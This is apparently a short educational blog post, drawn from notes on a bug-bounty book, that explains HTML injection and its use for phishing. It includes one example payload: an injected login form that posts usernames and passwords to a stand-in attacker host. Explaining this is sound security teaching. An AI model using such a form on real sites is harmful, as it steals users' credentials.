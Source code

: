 ```yaml
---
path: '/post-ten'
date: '2019-02-14'
time: '☕️ 3 min read'
title: 'Vulns #4: HTML Injection'
summary: 'HTML injection is also sometimes referred to as virtual
defacement. This is really an attack made possible by a site allowing a malicious user to
inject HTML into its web page(s) by not handling a user’s input properly.'
---
```


This article was done using my notes from a book titled WEB Hacking 101 written by Peter Yaworksi in 2018.

<sub>Yaworksi P. (2018). Web Hacking 101, How To Make Money Hacking Ethically</sub>

## What are HTML injections ?

As said in the summary, Hypertext Markup Language (HTML) injection is also sometimes referred to as virtual
defacement. This attack made possible by a site allowing an attacker to inject HTML into its web page(s) by not handling a user’s input properly.

In other words, an HTML injection vulnerability is caused by receiving HTML, typically via some form
input, which is then rendered as inputted, on the web page.

Since HTML is the language used to define the structure of a web page, if an attacker can
inject HTML, they can essentially change what a browser renders and a web page looks
like.

Sometimes this could result in completely changing the look of a page or in other
cases, creating HTML forms to trick users in hope they use the form to submit sensitive
information (this is referred to as phishing).

For example, if you could inject HTML, you might be able to add a < form> tag to the page, asking the user to re-enter their username
and password like:

```
<form method='POST' action='http://attacker.com/capture.php' id="login-form">
<input type='text' name='username' value=''>
<input type='password' name='password' value=''>
<input type='submit' value='submit'>
</form>

```

However, when submitting this form, the information is actually sent to http://attacker.com
via an action attribute, which sends the information to an attacker’s web page.

## What to be on the look out for ?

HTML Injection presents a vulnerability for sites and developers because it can be used to
phish users and trick them into submitting sensitive information to, or visiting, malicious
websites.

Hackers should be on the lookout for the opportunity to manipulate URL parameters and have
them rendered on the site but keep in mind, not all sites value and pay for these types
of reports.
